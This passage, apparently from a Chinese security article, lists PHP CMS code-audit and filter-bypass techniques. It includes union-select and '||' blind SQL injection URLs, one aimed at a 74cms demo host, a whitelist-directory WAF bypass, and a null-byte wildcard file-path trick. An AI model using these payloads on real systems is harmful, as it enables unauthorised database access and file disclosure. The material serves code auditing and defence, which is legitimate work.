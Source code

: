 但是mysql中提交其0axxx到数字型时强制转换成数字0

![p12](http://drops.javaweb.org/uploads/images/60aae2319d2a089f7ee2c860a66e9ca6289b4a65.jpg)

**10.**存在全局过滤时观察过滤条件是否有if判断进入，cms可能存在自定义safekey不启用全局过滤。通过程序遗留或者原有界面输出safekey导致绕过。

```
if($config['sy_istemplate']!='1' || md5(md5($config['sy_safekey']).$_GET['m'])!=$_POST['safekey'])
{
foreach($_POST as $id=>$v){
safesql($id,$v,"POST",$config);
$id = sfkeyword($id,$config);
$v = sfkeyword($v,$config);
$_POST[$id]=common_htmlspecialchars($v);
}
}

```

**11.**由于全局过滤存在白名单限定功能，可使用无用参数带入绕过。

```
$webscan_white_directory='admin|\/dede\/|\/install\/';

```

请求中包含了白名单参数所以放行。

```
http://www.target.com/index.php/dede/?m=foo&c=bar&id=1' and 1=2 union select xxx

```

**12.**字符串截断函数获取定长数据，截取`\\`或`\’`前一位，闭合语句。

利用条件必须是存在两个可控参数，前闭合，后注入。

**13.**过滤了空格，逗号的注入，可使用括号包裹绕过。具体如遇到select from（关键字空格判断的正则，且剔除/**/等）可使用括号包裹查询字段绕过。

**14.**由于PHP弱类型验证机制，导致`==`、`in_array()`等可通过强制转换绕过验证。

![p13](http://drops.javaweb.org/uploads/images/4d1d8fdf0122df817bd7dc5d0eebdf205dfb5dd2.jpg)

**15.**WAF或者过滤了and|or的情况可以使用&&与||进行盲注。

```
http://demo.74cms.com/user/user_invited.php?id=1%20||%20strcmp(substr(user(),1,13),char(114,111,111,116,64,108,111,99,97,108,104,111,115,116))&act=invited

```

**16.**windows下php中访问文件名使用”<” “>”将会被替换成”*” “?”，分别代表N个任意字符与1个任意字符。

```
file_get_contents("/images/".$_GET['a'].".jpg");

```

可使用`test.php?a=../a<%00`访问对应php文件。
